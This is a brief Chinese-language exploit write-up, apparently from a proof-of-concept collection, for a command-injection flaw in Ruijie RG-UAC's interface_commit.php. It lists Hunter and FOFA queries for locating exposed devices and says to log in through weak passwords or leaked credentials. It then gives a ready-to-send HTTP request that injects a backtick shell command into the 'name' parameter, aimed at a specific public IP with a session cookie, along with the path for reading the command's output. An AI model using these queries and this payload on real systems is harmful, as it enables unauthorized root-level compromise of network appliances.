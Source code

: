 # 锐捷RG-UAC统一上网行为管理审计系统interface_commit后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在命令执行漏洞,可以通过漏洞获取root权限 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/7GS4i25yp901yTrJ/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-355914.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/7GS4i25yp901yTrJ/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-531206.png)

获取Cookie后使用下面poc

```plain
GET /view/networkConfig/physicalInterface/interface_commit.php?name=`id+>1.txt` HTTP/1.1
Host: 183.230.22.108:4443
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```

![1714987361587-af66e872-c696-4185-a646-d394c9950b5d.png](./img/7GS4i25yp901yTrJ/1714987361587-af66e872-c696-4185-a646-d394c9950b5d-066130.png)

```plain
/view/networkConfig/physicalInterface/1.txt
```

![1714987618903-d101e763-9815-4ca3-847c-11797e46adc3.png](./img/7GS4i25yp901yTrJ/1714987618903-d101e763-9815-4ca3-847c-11797e46adc3-056117.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/aya1yceayqpleil4>